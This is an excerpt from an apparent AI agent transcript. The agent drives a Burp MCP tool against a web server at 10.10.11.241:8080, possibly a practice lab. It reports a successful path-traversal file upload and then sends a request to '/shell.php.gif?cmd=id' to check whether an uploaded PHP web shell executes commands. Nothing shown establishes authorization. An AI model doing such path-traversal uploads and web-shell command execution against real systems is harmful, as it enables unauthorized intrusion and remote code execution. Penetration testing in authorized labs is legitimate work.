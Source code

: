 
<environment_details>
# VSCode Visible Files
(No visible files)

# VSCode Open Tabs
(No open tabs)

# Current Time
5/7/2025, 12:39:44 PM (America/New_York, UTC-4:00)

# Context Window Usage
37,656 / 200K tokens used (19%)

# Current Mode
ACT MODE
</environment_details>

---

**Assistant:**

<thinking>
Interesting! The upload with the path traversal in the filename was successful. Let's try to access the file in the parent directory to see if it was actually placed there:
</thinking>

The upload with the path traversal in the filename was successful. Let's try to access the file in the parent directory to see if it was actually placed there.

<use_mcp_tool>
<server_name>burpmcp</server_name>
<tool_name>http1-send</tool_name>
<arguments>
{
  "data": "GET /shell.php.gif?cmd=id HTTP/1.1\r\nHost: 10.10.11.241:8080\r\nUser-Agent: Mozilla/5.0\r\nAccept: text/html,application/xhtml+xml,application/xml\r\nCookie: PHPSESSID=6qaatgee7p8mj7aeu3fc0g3jtn\r\nConnection: close\r\n\r\n",
  "host": "10.10.11.241",
  "port": 8080,
  "secure": false
}
</arguments>
</use_mcp_tool>

---

**User:**
